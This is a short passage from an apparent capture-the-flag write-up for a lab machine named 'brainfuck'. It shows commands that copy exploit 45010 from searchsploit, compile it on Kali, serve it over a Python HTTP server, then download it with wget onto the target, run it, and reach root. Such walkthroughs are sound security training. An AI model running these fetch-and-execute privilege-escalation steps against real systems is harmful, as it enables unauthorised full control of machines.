 Compile and send over to the target:

```bash
# on kali
searchsploit -m 45010
gcc 45010.c -o 45010
python3 -m http.server 8080
# on target
wget http://10.10.14.23:8080/45010
chmod +x 45010 && ./45010
```

Now that is actual `root`:

![root](./brainfuck/root.png)

